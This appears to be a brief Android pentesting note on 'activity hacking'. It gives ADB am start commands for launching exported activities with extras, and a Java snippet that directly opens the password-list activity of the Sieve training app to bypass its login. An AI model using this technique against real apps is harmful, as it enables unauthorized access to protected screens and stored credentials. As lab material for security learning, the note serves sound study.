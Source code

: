 ## Activity Hacking

**With ADB**

	am start -n <package-name/.activity-name> >> To start a specific activity of an app/package.
	
	am start -a <action-name> -c <catagory-name> >> To start a intent activity with action and catagory name.
	
	am start -a <action-name> -c <catagory-name> --es "username" "admin" >> To provide data to the activity.


**MainActivity.java**


```java
package com.example.myapplication;

import android.content.ComponentName;
import android.content.Intent;
import android.os.Bundle;
import androidx.appcompat.app.AppCompatActivity;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {

        // 🔹 Launch malicious Activity explicitly
        Intent intent = new Intent();
        intent.setComponent(new ComponentName(
                "com.mwr.example.sieve",        // target package
                "com.mwr.example.sieve.PWList"  // target activity
        ));
        startActivity(intent);
    }
}
```
